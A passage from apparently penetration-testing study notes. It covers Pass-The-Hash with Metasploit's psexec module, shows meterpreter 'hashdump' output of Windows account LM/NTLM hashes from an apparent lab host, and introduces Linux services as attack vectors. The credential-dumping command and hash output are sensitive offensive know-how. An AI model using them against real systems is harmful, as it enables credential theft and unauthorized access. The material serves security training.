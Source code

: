 the server is configured well and not display any cleartext password 



---

#### Pass-The-Hash Attacks    

**perform Pass-The-Hash attack with psexec metasploit module**

we need LM hash and NTLM hash also

```bash
meterpreter > hashdump 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
student:1008:aad3b435b51404eeaad3b435b51404ee:bd4ca1fbe028f3c5066467a7f6a73b0b:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::


user:SID:LMhash:NTLMhash
```



---

### Exploiting Linux Vulnerabilities

#### Frequently Exploited Linux Services 

- Linux is a free and open source operating system that is comprised of the Linux kernel, which was developed by Linus Torvalds, and the GNU toolkit, which is a collection of software and utilities that was started and developed by Richard Stallman.
- This combination of open source software is what makes up the Linux OS as a whole, and it is commonly referred to as GNU/Linux.
- Linux has various use cases, however, it is typically deployed as a server operating system. For this reason, there are specific services and protocols that will typically be found running on a Linux server.
- These services provide an attacker with an access vector that they can utilize to gain access to a target host.
- Having a good understanding of what these services are, how they work and their potential vulnerabilities is a vitally important skill to have as a penetration tester



<img src="./assets/10.png" style="zoom:100%;" />
